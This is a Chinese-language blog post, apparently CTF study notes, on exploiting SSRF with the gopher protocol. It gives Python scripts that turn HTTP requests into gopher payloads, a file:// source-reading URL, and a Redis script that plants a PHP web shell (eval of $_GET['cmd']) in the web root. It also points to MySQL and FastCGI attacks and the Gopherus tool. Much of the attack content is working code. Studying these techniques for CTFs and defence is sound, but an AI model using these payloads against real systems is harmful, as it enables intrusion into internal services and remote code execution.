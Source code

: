 ##  gophar的利用

###  定义

gopher协议是一种信息查0找系统，他将Internet上的文件组织成某种索引，方便用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。这拓宽了 SSRF 的攻击面

利用：

```
攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求
```

###  发送GET请求和POST请求

gopher`协议的格式：`gopher://IP:port/_TCP/IP数据流

GTE请求

```php
构造HTTP数据包

URL编码、替换回车换行为%0d%0a，HTTP包最后加%0d%0a代表消息结束

发送gopher协议, 协议后的IP一定要接端口
```

POST请求

```php
POST与GET传参的区别：它有4个参数为必要参数

需要传递Content-Type,Content-Length,host,post的参数

切记：Content-Length和POST的参数长度必须一致
```

例子：

使用file协议读取源码：`?url=file:///var/www/html/index.php`

python脚本生成payload（POST和GTE请求都适用）

```python
import urllib.parse

payload = """
POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=a68a3b03e80ce7fef96007dfa01dc077
"""
tmp = urllib.parse.quote(payload) #对payload中的特殊字符进行编码
new = tmp.replace('%0A','%0D%0A') #CRLFL漏洞
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)# 对新增的部分继续编码
print(result)
```

###  构造一个提交文件的POST请求

首先抓取一个正常提交文件的数据包，然后使用上述脚本将其转换为gopher协议的格式

```python
import urllib.parse
​
payload = \
"""POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 293
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge-a09b30b9de9fb026.sandbox.ctfhub.com:10080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryz0BDuCoolR1Vg7or
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-a09b30b9de9fb026.sandbox.ctfhub.com:10080/?url=http://127.0.0.1/flag.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
​
------WebKitFormBoundaryz0BDuCoolR1Vg7or
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
​
hello world!
------WebKitFormBoundaryz0BDuCoolR1Vg7or
Content-Disposition: form-data; name="submit"
​
submit
------WebKitFormBoundaryz0BDuCoolR1Vg7or--
"""
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A','%0D%0A')
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)
print(result)
```

### gopher打FastCGI 

[看我这一篇](https://blog.csdn.net/unexpectedthing/article/details/121643002)





### gopher打redis

[看我这一篇

[](https://blog.csdn.net/unexpectedthing/article/details/121667613)

```
import urllib.parse
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename="1.php"
path="/var/www/html"
passwd=""        #如果无密码就不加，如果有密码就加 
cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.parse.quote(redis_format(x))
    print(urllib.parse.quote(payload))

```



###  gopher打mysql

gopher打mysql，就是利用gopher协议传shell到mysql中。



首先Mysql存在三种连接方式

- Unix套接字；
- 内存共享/命名管道；
- TCP/IP套接字；

MySQL客户端连接并登录服务器时存在两种情况：需要密码认证以及无需密码认证。

- 当需要密码认证时使用挑战应答模式，服务器先发送salt然后客户端使用salt加密密码然后验证
- 当无需密码认证时直接发送TCP/IP数据包即可

这儿对localhost和127.0.0.1做一个区别

```
localhost也叫local ，正确的解释是：本地服务器。
127.0.0.1的正确解释是：本机地址（本机服务器），它的解析通过本机的host文件，windows自动将localhost解析为127.0.0.1。
localhot（local）是不经网卡传输的，这点很重要，它不受网络防火墙和网卡相关的的限制。127.0.0.1是通过网卡传输，依赖网卡，并受到网络防火墙和网卡相关的限制
简单说
当我们通过mysql -hlocalhost -uname去连接的时候，没有经过网卡，使用的是unix套接字连接，这种时候我们tcpdump是抓不到包的
当我们需要抓取mysql通信数据包时必须使用TCP/IP套接字连接。
mysql -h 127.0.0.1 -uname
```

我们平常打mysql最常用的就是打无密码的mysql

但是我们在用gopher还是需要用dict协议去得到mysql的端口(默认是3306)

直接使用的[gopherus工具](https://github.com/tarunkant/Gopherus)

![在这里插入图片描述](https://img-blog.csdnimg.cn/75cc5f2c09e9454c90380172c142084a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)

直接快速生成payload

参考的CTF题

[ISITDTU CTF Friss](https://xz.aliyun.com/t/2500#toc-0)

[从一道CTF题目看Gopher攻击MySql](https://www.freebuf.com/articles/web/159342.html)



